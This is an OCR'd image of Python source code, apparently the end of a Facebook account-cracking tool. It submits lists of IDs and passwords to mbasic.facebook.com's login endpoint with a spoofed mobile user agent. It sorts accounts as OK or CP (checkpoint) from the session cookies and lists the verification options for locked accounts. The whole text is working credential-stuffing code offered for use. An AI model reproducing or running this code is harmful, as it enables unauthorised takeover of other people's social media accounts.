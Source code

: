 				continue
			bi = random.choice([u,k,kk,b,h,hh])
			print('\r%s---> %s/%s ---> { %s }%s'%(bi,love,len(akun),id,x), end=' ');sys.stdout.flush()
			ua = 'Mozilla/5.0 (Linux; Android 11; TECNO KD8) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4755.101 Mobile Safari/537.36'
			ses = requests.Session()
			header = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
			hi = ses.get('https://mbasic.facebook.com')
			ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':id,'pass':pw,'login':'submit'}, headers=header, allow_redirects=True).text,'html.parser')
			if "checkpoint" in ses.cookies.get_dict().keys():
				try:
					jo = ho.find('form')
					data = {}
					lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
					for anj in jo('input'):
						if anj.get('name') in lion:
							data.update({anj.get('name'):anj.get('value')})
					kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=header).text,'html.parser')
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					opsi = kent.find_all('option')
					if len(opsi)==0:
						print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
					else:
						for opsii in opsi:
							print('\r%s---> %s%s'%(kk,opsii.text,x))
				except:
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					print('\r%s---> Cannot Check Options%s'%(u,x))
			elif "c_user" in ses.cookies.get_dict().keys():
				print('\r%s++++ %s|%s ----> OK       %s'%(h,id,pw,x))
			else:
				print('\r%s++++ %s|%s ----> ERROR       %s'%(x,id,pw,x))
			love+=1
		except requests.exceptions.ConnectionError:
			print('')
			li = '#INTERNET NO CONNECTED'
			sol().print(mark(li, style='red'))
			exit()
	dah = '# DONE'
	sol().print(mark(dah, style='green'))
	exit()

if __name__=='__main__':
	try:os.mkdir('OK')
	except:pass
	try:os.mkdir('CP')
	except:pass
	try:os.mkdir('DUMP')
	except:pass
	try:os.system('touch .prox.txt')
	except:pass
	menu()
